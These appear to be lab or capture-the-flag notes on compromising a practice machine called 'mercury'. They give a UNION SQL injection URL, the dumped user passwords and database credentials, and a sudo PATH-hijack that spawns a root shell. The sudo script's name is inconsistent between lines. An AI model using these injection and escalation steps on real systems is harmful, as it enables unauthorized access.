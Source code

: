 ```
http://192.168.56.108:8080/mercuryfacts/1%20union%20select%20username%20from%20users/
```

MySQL Injection using UNION after WHERE:

Users:
('john',), ('laura',), ('sam',), ('webmaster',)
Passwords:
('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',)


```
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'mercury',
        'USER': 'dbmaster',
        'PASSWORD': '8cSQK0HMJtNxaJwsKwgDwo',
        'HOST': '127.0.0.1',
        'PORT': '3306',
    }
}
```

from notes.txt using `echo "encoded" | base64 -d >> decoded`:
linuxmaster:mercurymeandiameteris4880km

**Important:**

sudo -l displays `(root: root) SETENV: /usr/bin/check_logs.sh` which contains tail of a log.
I can change the environment variable of PATH, create a new "tail" executable in /tmp which will execute custom command (/bin/bash)

```
export PATH=/tmp:$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```